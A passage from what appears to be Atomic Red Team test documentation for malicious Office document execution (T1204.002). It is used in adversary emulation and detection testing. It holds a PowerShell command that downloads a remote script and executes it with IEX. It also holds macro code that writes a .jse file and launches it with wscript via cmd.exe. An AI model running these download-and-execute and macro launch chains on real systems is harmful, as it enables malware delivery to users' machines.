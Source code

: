


#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| jse_path | jse file to execute with wscript | path | C:&#92;Users&#92;Public&#92;art.jse|
| ms_product | Maldoc application Word or Excel | string | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   a = Shell(`"cmd.exe /c wscript.exe //E:jscript #{jse_path}`", vbNormalFocus)`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #5 - Office launching .bat file from AppData
Microsoft Office creating then launching a .bat script from an AppData directory. The .bat file launches calc.exe when opened.

**Supported Platforms:** Windows


**auto_generated_guid:** 9215ea92-1ded-41b7-9cd6-79f9a78397aa
